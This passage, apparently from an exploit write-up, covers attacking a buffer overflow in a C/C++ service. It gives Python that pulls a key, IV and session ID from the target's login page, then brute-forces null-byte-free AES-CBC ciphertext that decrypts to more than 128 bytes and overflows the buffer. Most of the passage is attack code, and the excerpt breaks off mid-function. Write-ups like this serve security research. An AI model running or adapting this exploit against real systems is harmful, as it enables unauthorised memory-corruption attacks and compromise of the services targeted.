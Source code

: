 ```python
                fetch_url = target_url.rstrip("/") + fetch_url
            # Fetch the key/session_id from the extracted URL
            r2 = sess.get(fetch_url)
            # Try to extract key and session_id from JSON or cookies
            key = r2.text
            print("second req response: ", key)
            session_id = fetch_url.split("=")[1]
            if not key or not session_id:
                print("[-] Could not extract key or session_id from fetch response.")
                return None, None, None
            print(f"[+] Extracted IV: {iv}")
            print(f"[+] Extracted key: {key}")
            print(f"[+] Extracted session_id: {session_id}")
            return key, iv, session_id
        else:
            print(f"[-] Failed to connect to loginpage. Status code: {r.status_code}")
            return None, None, None
    except Exception as e:
        print(f"[-] Error: {e}")
        return None, None, None
```

Once we retrieve the necessary Key, IV and the Session ID, next thing we must deal with creating a ciphertext value which once will be decoded from base64 string should not contain any NULL bytes as in C/C++ strings are NULL `\0` terminated and we don’t want to send any ciphertext which ends up getting truncated due to having NULL bytes.  In order to create such ciphertext, I ended up creating a function which bruteforces through thousands of iterations (it takes seconds) to generate such ciphertext, although there are times when retrieved Key and IV and the use of random bytes does not yield any fruitful ciphertext that we need.

```python
def generate_null_byte_free_ciphertext(key_str, iv_str, target_decrypted_length, block_size=16, max_attempts=10000):
    """
    Generates an AES-CBC ciphertext for a plaintext of a specific
    decrypted length, ensuring the final ciphertext contains no null bytes.

    Args:
        key_str (str): The encryption key as a hexadecimal string.
        iv_str (str): The IV (Initialization Vector) as a hexadecimal string.
        target_decrypted_length (int): The desired length of the plaintext
                                       that, when decrypted, will cause the overflow.
                                       This should be > 128 bytes (e.g., 129 bytes).
        block_size (int): AES block size (default 16 bytes).
        max_attempts (int): Maximum number of attempts to generate null-byte-free ciphertext.

    Returns:
        tuple: A tuple containing (plaintext, ciphertext_base64) if successful,
               otherwise (None, None).
    """
    key = binascii.unhexlify(key_str)
    iv = binascii.unhexlify(iv_str)

    if len(key) != 16 and len(key) != 24 and len(key) != 32:
        raise ValueError("Key must be 16, 24, or 32 bytes long (128, 192, or 256 bits).")
    if len(iv) != block_size:
        raise ValueError(f"IV must be {block_size} bytes long for AES CBC.")

    padding_needed = block_size - (target_decrypted_length % block_size)
    if padding_needed == 0:
        padding_needed = block_size # If already a multiple, add a full block of padding

    base_plaintext_length = target_decrypted_length - padding_needed
    if base_plaintext_length <= 0:
```
